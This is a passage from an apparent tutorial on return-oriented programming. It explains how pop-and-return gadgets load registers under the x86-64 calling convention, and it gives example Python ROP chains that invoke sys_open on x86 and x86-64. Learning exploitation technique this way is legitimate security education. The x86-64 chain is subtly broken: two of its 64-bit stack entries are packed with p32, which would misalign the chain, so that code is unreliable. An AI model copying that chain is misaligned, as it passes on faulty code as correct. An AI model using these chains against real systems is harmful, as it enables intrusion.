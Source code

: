 **So what's happening in this stack frame?**

The operations that take place within this `stack` frame are exactly the same
as what took place in the `x86` example, we're just using `ROP` gadgets to
ensure that we're following the `x86-64` calling convention. Each `pop %; ret`
gadget is `pop`ing our arguments from the `stack` into the correct registers
for each `libc` function call. You can see that not everything is perfect,
though. The `pop rsi; pop r15; ret` gadget is `pop`ing a dummy value from the
`stack` into `r15`. We're not always going to find the perfect gadget to
`pop %` just one value into our target register - we have to make due with
what's available.

## Creating a ROP chain to execute syscalls on x86 and x86-64

Alright, so now that we understand how to chain gadgets to make multiple `libc`
calls, here are some examples of `ROP` chains that execute `syscall`s in `x86`
and `x86-64`.

Here's an example `ROP` chain that executes
`sys_open(filename_ptr, O_RDONLY, 0)` in `x86`:

```python
p32(pop_ebx_ret)    # load filename_ptr into ebx
p32(filename_ptr)   # arg0: pointer to filename string
p32(pop_ecx_ret)    # load flags into ecx
p32(0x0)            # arg1: O_RDONLY 
p32(pop_edx_ret)    # load mode into edx
p32(0x0)            # arg2: 0 for mode
p32(pop_eax_ret)    # load syscall number into eax
p32(0x5)            # syscall number for sys_open
p32(int_80_ret)     # int 0x80; ret gadget
```

Here's an example `ROP` chain that executes
`sys_open(filename_ptr, O_RDONLY, 0)` in `x86-64`:

```python
p64(pop_rdi_ret)    # load filename_ptr into rdi
p64(filename_ptr)   # arg0: pointer to filename string
p64(pop_rsi_ret)    # load flags into rsi
p64(0x0)            # arg1: O_RDONLY 
p64(pop_rdx_ret)    # load mode into rdx
p32(0x0)            # arg2: 0 for mode
p32(pop_rax_ret)    # load syscall number into rax
p64(0x2)            # syscall number for sys_open
p64(syscall)        # syscall; ret
```

As you've probably noticed these two `ROP` chains seem super simple and super
similiar, but it won't always be that way. As I said earlier, creating a `ROP`
chain is a test of creativity, and you won't always be able to load your
registers with simple `pop %; ret` gadgets.

### How might one combine multiple gadgets into one register-populating pseudo-gadget? What are some useful non-pop instructions for doing this in amd64?
